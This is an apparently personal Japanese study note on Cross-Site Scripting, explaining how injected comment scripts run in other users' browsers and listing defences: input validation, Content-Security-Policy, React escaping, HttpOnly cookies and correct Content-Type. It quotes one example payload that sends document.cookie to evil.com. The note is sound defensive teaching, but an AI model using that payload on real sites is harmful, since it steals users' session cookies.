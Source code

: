 # XSS(Cross-Site Scripting)

## XSSとは？

- 攻撃者が掲示板などのコメント欄に悪意あるスクリプト（例: `<script>fetch('https://evil.com?cookie=' + document.cookie)</script>`）を投稿する
- 他のユーザーがこのコメントを表示した際に、そのユーザーのブラウザでスクリプトが実行されてしまう
  - Cookieが盗まれてしまう
  - フォームが自動送信される
  - 見た目（HTML）を書き換えてしまう

## 対策

### 埋め込み・登録を防ぐ: 入力値サニタイズ

- フロントエンド・サーバーサイドの双方でユーザー入力値のバリデーションを行う

### 発動を防ぐ1: CSP

- サーバ側でContent-Security-Policy（CSP）を設定する(レスポンスにヘッダをセットする)
  - CSPは、ブラウザに命令をするもの(インラインのJS実行禁止とか、同一オリジンのJSのみ実行許可するとか)
  - ブラウザがCSPに書かれている命令を読み取り、それに則り行動する
- 設定例:
  - `script-src 'self'`: `<script src="./script/app.js></script>`といった 外部スクリプトの同一オリジンのみ許可（インライン＝HTML内のJSやbutton等のHTMLタグのonclick属性等のJSもブロック）

[コンテンツセキュリティポリシー (CSP) - HTTP | MDN](https://developer.mozilla.org/ja/docs/Web/HTTP/Guides/CSP)

### 発動を防ぐ2: 出力時のエスケープ

- ReactのJSX内の埋め込みでは、デフォルトでHTMLとして解釈されないようエスケープされる
- ただし`dangerouslySetInnerHTML`のようなエスケープを無効化し、HTMLとして認識させるオプションを使用する際は注意する

### 読み取りを防ぐ: Cookie HttpOnly属性

- Cookie HttpOnly属性をつけることでJSからトークンを盗まれないようにする

### サーバー側での考慮事項

- Content-Typeに正しい値を指定する
  - JSONの値にJavaScriptコードを埋め込み、それを`Content-Type: application/html`として返し、それをユーザーがブラウザで表示してしまうと、そのスクリプトは実行されてしまう

### 対策まとめ

サーバーからブラウザに変なJSを実行しないでね＋ユーザー入力値はきちんと文字列として扱ってね＋もし万が一Cookieにアクセスされても盗まれないように

